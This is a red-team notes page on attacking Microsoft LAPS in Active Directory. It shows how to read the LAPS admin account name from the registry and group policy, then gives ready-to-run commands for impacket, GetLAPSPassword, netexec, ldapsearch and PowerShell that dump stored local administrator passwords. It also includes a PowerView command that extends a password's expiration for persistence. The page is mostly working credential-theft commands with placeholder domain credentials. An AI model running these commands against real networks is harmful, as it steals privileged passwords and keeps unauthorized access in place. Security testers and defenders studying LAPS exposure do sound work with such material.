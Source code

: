 ```yaml
---
title: LAPS
---
```


Local Administrator Password Solution assigns random passwords to the local administrator account on domain-joined devices ([source](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)).
With LAPSv1 the password is stored in the `ms-MCS-AdmPwd` attribute on the computer object.
With LAPSv2 the `msLAPS-EncryptedPassword` or `msLAPS-Password` attribute is used.

Check if the current computer has LAPSv1 installed.

~~~ bat
dir C:\Program Files\LAPS\CSE\AdmPwd.dll
~~~

Get LAPS username from registry by reading `HKLM\Software\Policies\Microsoft Services\AdmPwd\AdminAccountName`.

Get LAPS username from GPO ([source](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38501018-local-administrator-password-solution)).

=== "PowerView + [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)"
    ~~~
    PS > Get-DomainGPO | ? { $_.DisplayName -like '*laps*' } | select DisplayName, Name, GPCFileSysPath
    PS > cp \\dc01.corp.local\SysVol\corp.local\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol .
    PS > Parse-PolFile .\Registry.pol
    ...
    KeyName     : Software\Policies\Microsoft Services\AdmPwd
    ValueName   : AdminAccountName
    ValueType   : REG_SZ
    ValueLength : 20
    ValueData   : LapsAdmin
    ...
    ~~~

Dump all accessible LAPS passwords.

=== "[[notes/tools/impacket]]"
    Requires [PR 1673](https://github.com/fortra/impacket/pull/1673).

    ~~~ bash
    impacket-readlaps corp.local/jdoe:'passw0rd'
    ~~~

=== "[GetLAPSPassword](https://github.com/dru1d-foofus/GetLAPSPassword)"
    ~~~ bash
    python3 ./GetLAPSPassword.py -debug -computer ws01 corp.local/jdoe:'passw0rd'
    ~~~

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec ldap dc01.corp.local -d corp.local -u jdoe -p 'passw0rd' -M laps
    ~~~

=== "ldapsearch"
    ~~~ bash
    ldapsearch -o ldif-wrap=no -H ldaps://dc01.corp.local -D jdoe@corp.local -w 'passw0rd' -b dc=corp,dc=local '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))'
    ~~~

=== "[[notes/tools/powershell-rsat]]"
    ~~~ powershell
    Get-ADComputer -Server dc01.corp.local -Identity ws01 -Properties ms-MCS-AdmPwd,ms-Mcs-AdmPwdExpirationTime
    Get-ADObject -LdapFilter '(ms-MCS-AdmPwd=*)' -Properties ms-MCS-AdmPwd,ms-Mcs-AdmPwdExpirationTime | %{ $_.DistinguishedName, $_['ms-MCS-AdmPwd'] }
    ~~~

If *Do not allow password expiration time longer than required by policy* aka `PwdExpirationProtectionEnabled` is not enabled and you control a computer you can set the expiration of the LAPS password far into the future ([source](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38528164-password-expiration-protection)).

=== "PowerView"
    ~~~ powershell
    Set-DomainObject -Identity ws01 -Set @{'ms-Mcs-AdmPwdExpirationTime'='136257686710000000'} -Verbose
    ~~~

    The timestamp can be calculated with [epochconverter.com](https://www.epochconverter.com/ldap).

Other tools:

- [LAPSDumper](https://github.com/n00py/lapsdumper), doesn't support Kerberos

Untested tools:

- [LAPSv2Decrypt BOF](https://github.com/xpn/RandomTSScripts/tree/master/lapsv2decrypt/bof)
- [lapsv2_decryptor.py](https://gist.github.com/zblurx/009633b2db25918bdbbff664a01508fc), LAPSv2 dumper, also see Impacket [PR 1556](https://github.com/fortra/impacket/pull/1556)
- [LAPSDecrypt.cs](https://gist.github.com/xpn/23dc5b6c260a7571763ca8ca745c32f4), decryptor for LAPSv2 passwords

References:

- [LAPS 2.0 Internals](http://web.archive.org/web/20230814075010/https://blog.xpnsec.com/lapsv2-internals/)
- [A Hitch-hacker's Guide to DACL-Based Detections (Part 1B)](http://web.archive.org/web/20231015122711/https://trustedsec.com/blog/a-hitch-hackers-guide-to-dacl-based-detections-part-1b)
